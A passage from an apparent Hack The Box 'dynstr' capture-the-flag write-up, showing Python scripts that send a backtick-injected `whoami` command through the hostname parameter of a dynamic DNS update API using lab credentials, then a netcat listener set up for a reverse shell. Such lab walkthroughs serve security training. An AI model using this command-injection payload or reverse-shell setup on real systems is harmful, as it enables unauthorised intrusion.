 ```console
elpollon@elpollon:~/HTB/dynstr/exploits$ ./exploit.py

good 10.10.16.55
```
This means that the update was successful. Let's try other thing than *xvideos*.

```python
#!/usr/bin/python3

import requests
from base64 import b64encode

credentials_b64 = b64encode(b'dynadns:sndanyd').decode()
url = 'http://dyna.htb/nic/update'
headers = {'Authorization': 'Basic ' + credentials_b64}
params = {'hostname': 'anything.dynamicdns.htb', 'myip': '10.10.16.55'}

response = requests.get(url, headers=headers, params=params)
print(response.text)
```

```console
elpollon@elpollon:~/HTB/dynstr/exploits$ ./exploit.py

good 10.10.16.55
```

Seems that the first field of the domain could be any value. Let's try to run `whoami` command.

```python
#!/usr/bin/python3

import requests
from base64 import b64encode

credentials_b64 = b64encode(b'dynadns:sndanyd').decode()
url = 'http://dyna.htb/nic/update'
headers = {'Authorization': 'Basic ' + credentials_b64}
params = {'hostname': '`whoami`.dynamicdns.htb', 'myip': '10.10.16.55'}

response = requests.get(url, headers=headers, params=params)
print(response.text)
```

```console
elpollon@elpollon:~/HTB/dynstr/exploits$ ./exploit.py

good 10.10.16.55
```

Looks like it works and this value could be vulnerable to RCE. Let's try now to get a reverse shell. We put on listen with **nc** in another terminal.

```
elpollon@elpollon:~/HTB/dynstr$ nc -nlvp 443

listening on [any] 443 ...
```
